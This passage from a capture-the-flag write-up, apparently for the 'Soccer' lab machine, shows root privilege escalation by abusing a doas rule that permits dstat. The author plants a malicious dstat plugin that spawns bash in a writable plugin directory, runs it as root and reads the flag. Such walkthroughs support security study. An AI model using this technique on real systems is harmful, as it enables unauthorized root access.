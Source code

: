 
In the `Files with Interesting Permissions` section I notice `doas` which is an alternative to `sudo` typically found on OpenBSD operating systems. But can also be installed on Debian-based Linux OSes like Ubuntu. I don’t see a `doas.conf` file in `/etc/` , so I decide to search the filesystem for it with `find`:

```bash
player@soccer:~$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
```

This file contains a single line, and shows me that the player user is allowed to run `/usr/bin/dstat` as root:

```bash
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

This is a tool for getting system information. Reading through the [man page](https://linux.die.net/man/1/dstat), I noticed that I can write my own plugins and have `dstat` execute them

> Paths that may contain external dstat_*.py plugins:
>
>
> ~/.dstat/ <br />
> (path of binary)/plugins/ <br />
> /usr/share/dstat/ <br />
> /usr/local/share/dstat/ <br />

What `dstat` understands as plugins are just basically python scripts using the following naming convention `dstat_[plugin name].py`.

### Malicious Plugin

This allows me to write a trivial python script that gives access to bash for an interactive shell.

```python
import os
os.system("/bin/bash")
```

Looking at the list of locations, I can obviously write to `~/.dstat`, but when run with `doas`, it’ll be running as root, and therefore won’t check `/home/player/.dstat`. Luckily, `/usr/local/share/dstat` is writable.

```bash
player@soccer:~$ echo -e 'import os\n\nos.system("/bin/bash")' > \
	/usr/local/share/dstat/dstat_shell.py
```

With that in place, I invoke `dstat` with the `shell` plugin:

```bash
player@soccer:~$ doas /usr/bin/dstat --shell
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/home/player#
```

And grab the flag:

```bash
root@soccer:~# cat root.txt
2f090c1af8f876c1193f284135abe98f
```
